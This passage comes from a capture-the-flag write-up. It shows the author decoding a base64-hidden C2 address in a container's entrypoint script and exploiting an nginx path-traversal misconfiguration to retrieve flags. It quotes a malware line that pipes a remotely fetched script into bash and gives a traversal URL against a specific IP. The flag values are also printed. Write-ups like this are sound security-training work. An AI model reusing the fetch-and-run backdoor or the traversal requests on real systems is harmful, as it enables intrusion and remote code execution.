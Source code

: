 **Flag Part 2:** `6ea2c94c3e`

## Part 3 - Exploiting Attacker's Misconfiguration

Analyzed entrypoint script:

```ln:false wrap
docker run -it --entrypoint /bin/sh acrqrwebllptbcbf.azurecr.io/hello-world
cat /app/entrypoint.sh
```

Found base64-encoded C2 server: `188.166.230.157`

```ln:false wrap
SERVER=$(echo MTg4LjE2Ni4yMzAuMTU3Cg== | base64 -d)
check_updates() { curl -s http://$SERVER/update.sh | bash > /dev/null 2>&1 }
```

Enumerated nginx server. Discovered attacker exposed payload folders at `/aa/` and `/public/` with basic auth protection.

<img width="1193" height="308" alt="image" src="https://github.com/user-attachments/assets/6d72c6e2-ddaf-4ca1-8893-64962d5d694b" />

Found `default.save` (nginx config backup file)

Exploited nginx path traversal misconfiguration:

```ln:false wrap
http://188.166.230.157/aa../uploads/flag
```

**Flag Part 3:** `f032f1fb5859`

